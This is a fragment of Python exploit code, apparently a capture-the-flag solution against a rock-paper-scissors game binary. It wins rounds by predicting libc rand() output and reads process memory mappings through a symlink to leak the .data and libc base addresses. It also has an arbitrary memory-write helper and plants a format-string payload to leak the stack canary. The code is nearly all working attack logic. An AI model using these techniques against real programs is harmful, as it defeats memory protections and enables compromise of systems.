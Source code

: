 ```
        for i in range(3):
            self.winning_seq.append(((libc.rand() % 3) + 1) % 3 + 1)

    def reseed(self):
        libc.srand(self.seed)

    def consume_all(self):
        res = self.p.recv()
        print(res)
        return res

    def full_round(self):
        for i in range(2):
            self.p.sendline(str(self.winning_seq[i]).encode())
            sleep(1)
            res = self.consume_all()
        return res

    def write_memory(self, addr, content):
        self.p.sendline(hex(addr).encode())
        self.consume_all()
        self.p.sendline(hex(int.from_bytes(content[::-1])).encode())

    def read_mappings(self):
        self.consume_all()
        self.p.sendline(b'y') # Load "test"
        self.consume_all()

        self.p.sendline(b'card')
        sleep(1)
        self.consume_all()

        # User does a symlink
        input("Changed card to symlink to memory mapping ? PID = {}".format(self.p.pid))

        # Send rock to see memory mapping
        self.p.sendline(b'1')
        sleep(1)
        mapping = self.consume_all().decode()

        # Virtual address of segment containing .data
        self.DATA_BASE_ADDR = int(mapping.split('\n')[5].split('-')[0], base=16)
        # Virtual address of segment containing libc's .text
        self.LIBC_BASE_ADDR = int(mapping.split('\n')[9].split('-')[0], base=16)

        print("\n[+] Segment containing .data mapped address : 0x{:08x}\n".format(self.DATA_BASE_ADDR))
        print("\n[+] Segment containing libc's .text mapped address : 0x{:08x}\n".format(self.LIBC_BASE_ADDR))

        winner = mapping.split('\n')[17]

        self.p.sendline(str(self.winning_seq[1]).encode())

        # Win twice if needed
        if winner == 'Bot wins!' or winner == 'It\'s a draw!':
            self.p.sendline(str(self.winning_seq[2]).encode())

        self.consume_all().decode()

    def find_canary(self):
        self.write_memory(self.DATA_BASE_ADDR + RPSHandler.OFFSET_WIN_MESSAGE_DATA, b'%13$p\n\x00')

```